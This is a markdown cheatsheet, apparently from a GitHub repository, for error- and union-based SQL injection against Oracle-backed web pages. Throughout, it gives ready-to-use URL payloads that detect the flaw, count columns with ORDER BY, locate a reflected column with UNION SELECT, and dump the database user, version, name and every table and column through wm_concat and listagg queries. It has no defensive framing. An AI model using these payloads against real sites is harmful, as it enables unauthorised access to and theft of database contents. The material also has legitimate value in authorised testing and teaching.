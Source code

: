 # Oracle Error/Union based SQL Injection Cheatsheet

## Detecting the vulnerability

The most common way to detect a SQLi vulnerability, is by inserting a **'** in the end of GET/POST parameter value:  
`http://domain.com/index.php?id=1'`  

If vulnerable, the website might show an SQL syntax error. This is a good sign that you are dealing with **Error-based SQL injection**:
![error_based_sql_vulnerability](https://i.imgur.com/lnUslML.jpg)

Sometimes no error pops up, but if your naked-eye is somehow trained and experienced, you might see visual differences on the website response. Content-Length of the response might change (website might not fully load up). This is a good sign of **Union-based or Blind-based SQL Injection**.

## Find the number of columns using 'ORDER BY' query
Now that we performed an SQL syntax error to the website, we can begin fuzzing and finding how many columns do we have by using ORDER BY.

`http://domain.com/index.php?id=1' order by 1-- -` 

This query musn't show up error, the website MUST load successfully, since there is no lower number than 1. If the error still persists, try removing the **'** since it breaks the SQL query:
`http://domain.com/index.php?id=1 order by 1-- -`

Now it is time to find the correct number of columns. Now let's use the payload that worked, and try increasing the number by 1, untill an error shows up:

`http://domain.com/index.php?id=1 order by 1-- -` no error  
`http://domain.com/index.php?id=1 order by 2-- -` no error  
`http://domain.com/index.php?id=1 order by 3-- -` no error  
`http://domain.com/index.php?id=1 order by 4-- -` no error  
`http://domain.com/index.php?id=1 order by 5-- -` no error  
`http://domain.com/index.php?id=1 order by 6-- -` no error  
`http://domain.com/index.php?id=1 order by 7-- -` no error  
`http://domain.com/index.php?id=1 order by 8-- -` error  

This means there are only 7 columns. Now we have to find which one of these 7 columns have information.

## Find the vulnerable column where information are stored using 'UNION SELECT' query

Using a simple query, we determine which of the 7 columns reflect our input using. In **UNION SELECT** queries, you have to put **null** as many times as we found the number on **ORDER BY** (this case: 7).

`http://domain.com/index.php?id=1' Union Select null, null, null, null, null, null, null from dual-- -`

If the website loads up successfully (no error must be displayed), it means that we are using the right syntax (without breaking the vulnerable query used by the website). 

Great, let's find which column is reflecting data. To do that, we have to replace each **null** by integer surrounded by **'**. We have to replace each **null** one by one untill a number is being reflected on the website. For example: 

`http://domain.com/index.php?id=1' Union Select '1', null, null, null, null, null, null from dual-- -` not reflecting  
`http://domain.com/index.php?id=1' Union Select '1', '2', null, null, null, null, null from dual-- -` not reflecting  
`http://domain.com/index.php?id=1' Union Select '1', '2', '3', null, null, null, null from dual-- -` not reflecting  
`http://domain.com/index.php?id=1' Union Select '1', '2', '3', '4', null, null, null from dual-- -` not reflecting  
`http://domain.com/index.php?id=1' Union Select '1', '2', '3', '4', '5', null, null from dual-- -` number 5 is being displayed on the website.  

We found that the 5th column is reflecting our input. This will be where our DIOS payload or dumping query will be inserted into.

## Dumping data

Some really basic queries to use for dumping the user and the Oracle version:  
```sql
user
(select banner from v$version where rownum=1)
```

`http://domain.com/index.php?id=1' Union Select '1', '2', '3', '4', (select banner from v$version where rownum=1), null, null from dual-- -`

Use **||** if you want to include more than 1 query while dumping:  
`http://domain.com/index.php?id=1' Union Select '1', '2', '3', '4', user || '<u>You can also insert HTML code</u>'||(select banner from v$version where rownum=1), null, null from dual-- -`

Retrieving the database name:   
```sql
(select sys.database_name from dual)
(SELECT instance_name FROM V$INSTANCE)
SYS.DATABASE_NAME
```

Dumping the whole database with DIOS

For Oracle 11g or older you can use **wm_concat** function:  
```sql
(select wm_concat('<li>'||table_name||':'||column_name)from(select rownum as rnum, table_name, column_name from all_tab_columns order by table_name desc) shell where rnum<120)
```

For Oracle version newer than 11g, **listagg** function is used instead:  
```sql
(select listagg('<li>'||table_name||':'||column_name)from(select rownum as rnum,table_name,column_name from all_tab_columns order by table_name desc) shell where rnum<120)
```
```sql
(select LISTAGG(table_name,'<li>') within group (ORDER BY table_name) from all_tables)
```

The following query shows the inserted DIOS into the 5th (and vulnerable) column as a reference:  
`http://domain.com/index.php?id=1' Union Select '1', '2', '3', '4', (select listagg('<li>'||table_name||':'||column_name)from(select rownum as rnum,table_name,column_name from all_tab_columns order by table_name desc) shell where rnum<120), null, null from dual-- -`

If everything goes as it should be, all the tables and columns should be displayed on the website.
